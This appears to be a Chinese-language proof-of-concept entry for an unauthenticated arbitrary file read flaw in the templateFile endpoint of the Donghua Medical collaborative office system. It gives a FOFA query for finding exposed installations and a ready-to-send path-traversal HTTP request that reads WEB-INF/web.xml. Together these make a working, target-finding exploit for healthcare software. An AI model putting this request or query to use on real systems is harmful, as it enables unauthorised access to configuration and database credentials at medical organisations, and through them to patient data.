 # 东华医疗协同办公系统templateFile存在任意文件下载漏洞

东华医疗协同办公系统 templateFile 存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```yaml
body="东华医疗协同办公系统"
```

## poc

```java
GET /common/templateFile?template_name=../../WEB-INF/web.xml HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408162053596.png)